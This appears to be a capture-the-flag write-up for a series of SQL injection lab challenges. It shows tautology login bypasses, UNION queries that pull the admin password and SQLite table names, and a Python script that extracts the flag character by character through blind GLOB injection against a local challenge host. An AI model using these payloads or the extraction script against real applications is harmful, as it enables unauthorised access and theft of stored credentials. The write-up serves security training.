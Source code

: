 # SQLi

## SQLi 1

User: `admin`
PIN: `1 OR 1=1`

SQL Query formed:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND pin = 1 OR 1=1
```

## SQLi 2

User: `admin`
Password: `'pass OR '1'='1`

SQL Query formed:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND password = 'pass' OR '1'='1'
```

## SQLi 3

Observing the server code we get to know that the password of the admin is the flag.

Query: admin" UNION SELECT password FROM users WHERE username LIKE "admin

SQL Query formed:

```sql
SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users WHERE username LIKE "admin"
```

## SQLi 4

Since the server uses sqlite \
Query: admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%

SQL Query formed (REDACTED is the randomized name of users table)

```sql
SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%"
```

This gives the name of the users table, now do same as *SQLi 3*

## SQLi 5

Python script:

```python
import requests

url = "http://challenge.localhost/"
username = "admin"
password = "' OR 1=1 AND password GLOB 'pwn.college{"

while True:
    for i in range(33,127):
        if chr(i) in ["*", "?"]:
            continue
        tmp = password + chr(i)
        data = {"username": username, "password": tmp+"*"}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            password = tmp
            print(f"Found: {password}")
            if chr(i) == "}":
                exit(0)
            break
```

Using `GLOB` because `LIKE` is, by default, case-insensitive in SQLite.
